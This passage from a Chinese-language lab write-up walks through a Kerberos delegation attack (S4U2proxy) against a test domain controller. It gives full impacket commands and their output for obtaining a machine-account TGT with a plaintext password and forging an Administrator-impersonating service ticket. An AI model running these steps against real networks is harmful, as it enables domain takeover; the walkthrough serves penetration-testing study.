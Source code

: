 输出确认委派权限已成功修改，`NEWPC$` 现在可以模拟用户在 `DC$` 上进行操作了。

## **3.4 Kerberos委派攻击 (S4U2proxy)**

现在，攻击流程进入最后阶段。

1. **获取 `NEWPC$` 的 TGT**
   首先，使用 `getTGT.py` 和我们为 `NEWPC$` 设置的密码，获取其Kerberos TGT（票据授予票据）。

   ```bash
   ┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
   └─$ python3 /usr/share/doc/python3-impacket/examples/getTGT.py -dc-ip 192.168.205.132 novice.com/NEWPC$:Password123!
   Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 
   
   [*] Saving ticket in NEWPC$.ccache
   ```

2. **请求模拟管理员的服务票据**
   接下来，利用上一步获取的 TGT，通过 Kerberos S4U2proxy 扩展协议，请求一张可以**模拟 `Administrator` 用户**身份、并用于访问域控 `cifs`（文件共享）服务的服务票据 (ST)。

   ```bash
   ┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
   └─$ export KRB5CCNAME=NEWPC$.ccache
   ┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
   └─$ python3 /usr/share/doc/python3-impacket/examples/getST.py -k -no-pass -spn cifs/dc.novice.com -impersonate Administrator -dc-ip 192.168.205.132 novice.com/NEWPC$       
   Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 
   
   [*] Impersonating Administrator
   [*] Requesting S4U2self
   [*] Requesting S4U2Proxy
   [*] Saving ticket in Administrator@cifs_dc.novice.com@NOVICE.COM.ccache
   ```

   攻击成功，我们获取了包含管理员权限的服务票据，并保存在一个新的 `.ccache` 凭证缓存文件中。

---

# **四、夺取域控与总结**

## **4.1 解决名称解析问题**

在直接使用最终票据进行攻击时，我们的攻击机可能因为无法将域名 `dc.novice.com` 和 `novice.com` 解析到正确的IP地址而导致连接失败。为了避免这个问题，需要将域名和IP的对应关系手动写入本地的 `/etc/hosts` 文件。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ sudo nano /etc/hosts
[sudo] kali 的密码：
                                                                                                                                                                                  
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ tail -n 1 /etc/hosts                                  
192.168.205.132 novice.com dc.novice.com DC
```
